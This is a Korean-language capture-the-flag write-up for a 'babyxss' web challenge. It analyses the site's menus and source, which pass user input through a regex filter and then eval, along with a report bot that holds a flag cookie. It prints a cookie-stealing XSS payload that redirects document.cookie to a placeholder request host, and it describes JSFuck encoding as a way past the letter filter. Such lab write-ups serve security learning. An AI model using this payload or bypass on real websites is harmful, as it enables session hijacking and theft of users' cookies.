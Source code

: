 <h1>1. 웹페이지 접속</h1>
 

![image](./image/babyxss1.png)
 

대상 웹사이트에 접속하였을 때의 메인화면이다. Baby's music, Saved, Go to Report 세가지 메뉴가 존재한다.

 

먼저 Baby's music 메뉴에 접근해보았을 때 메뉴는 다음과 같다.

 

대상 웹사이트 메인
Baby's music (1)
 

입력할 수 있는 입력창과 확인 버튼 그리고 save 버튼이 존재하였으며 일단 임의의 문자열 입력 후 확인 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Baby's music (2)
 

nope! 이라는 메시지가 출력되었다.

 

대상 웹사이트 메인
Baby's music (3)
 

임의의 숫자를 입력 후 확인 버튼 클릭 시 입력한 숫자가 포함된 문자열이 출력되는 것을 확인하였으며 save 버튼 클릭 시 id를 발급받을 수 있었다.

 

다음은 Saved 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Saved (1)
 

?id= 라는 문자열이 출력되었다. ?가 붙어있는 것을 보고 파라미터인 것 같다는 생각이 들어 url에 파라미터를 입력해보았다.

 

대상 웹사이트 메인
Saved (2)
 

id 파라미터에 방금 발급받았던 id 값을 입력하였더니 사용자가 입력한 값이 포함되어 저장된 내용이 출력되었다.

 

다음은 Go to Report 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Go to Report (1)
 

입력창과 제출 버튼이 있어 임의의 문자열 입력 후 제출 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Go to Report (2)
 

Reported! 메시지가 출력되었는데 어떤 기능이 실행되는지는 알 수 없었다.

 

코드 분석
 

대상 웹사이트 메인
코드 분석 (1)
 

cookies 변수에 FLAG 가 저장되어있는 것을 알 수 있다.

 

대상 웹사이트 메인
코드 분석 (2)
 

이 코드를 통해 Go to Report 메뉴의 기능을 확인할 수 있었다. cookies 변수에 저장된 값을 이용하여 쿠키를 세팅하며 요청 패킷의 url 파라미터를 통해 입력받은 url로 서버에서 접근하게 된다는 것을 알 수 있다. 프록시를 통해 확인한 url 파라미터 값은 다음과 같다.

 

대상 웹사이트 메인
코드 분석 (3)
 

 

다음으로 주목할 부분은 Baby's music 메뉴의 소스코드이다.

 

대상 웹사이트 메인
코드 분석 (4)
 

입력 받은 값을 정규 표현식을 통해 필터링하는 부분이 존재하며 필터링되지 않는다면 eval 함수의 인자값에 사용자가 입력한 값이 포함되는 것을 확인하였다. 이를 통해 악의적인 스크립트를 삽입할 수 있을 것이라고 생각하였다.

 

공격 시나리오
 

웹사이트의 메뉴를 확인하고 코드를 분석한 결과 다음과 같은 시나리오를 생각해보았다.

 

1. Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

2. Go to Report 메뉴에서 saved?id='save_id' 를 입력하여 서버 측에서 악의적인 스크립트가 삽입된 페이지에 접근하도록 하여 쿠키를 탈취한다.

 

 

공격 실행
 

1) Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

Baby's music 메뉴에서 다음과 같은 스크립트를 삽입하고자 한다.

 


',location.href="request_url/"+document.cookie,'
 

스크립트의 앞부분에 ', 과 뒷부분에는 ,' 가 존재하는 이유는 Baby's music 에서 입력한 값은 eval 함수의 인자에 삽입되기 때문이다.

 


eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
 

 

입력한 값이 ${age} 에 삽입되게 되는데 악의적인 스크립트가 삽입된 결과는 다음과 같다.

 


eval(`msg.innerHTML='This is recommended album for ',location.href="request_url/"+document.cookie,'-year-old.'`);
 

 

이렇게 삽입되면 eval 함수를 통해 삽입된 악의적인 스크립트가 실행된다.

 

하지만 알파벳은 필터링되어 스크립트가 삽입될 수 없으므로 다른 방법으로 삽입해야한다.

 

대상 웹사이트 메인
공격 실행 (1)
 

삽입할 스크립트를 JSFuck 기법으로 인코딩하여 삽입한다.

 

먼저 임의의 숫자를 입력 후 save 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (2)
 

프록시 도구에서 스크립트를 삽입한다.

 

대상 웹사이트 메인
공격 실행 (3)
 

발급받은 id 값을 확인한다.

대상 웹사이트 메인
공격 실행 (4)
 

Go to Report 메뉴로 이동하여 saved?id='발급받은 id' 를 입력 후 제출 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (5)
 

 

쿠키 탈취에 성공하여 flag를 확인하였다.

 

대상 웹사이트 메인
공격 실행 (6)
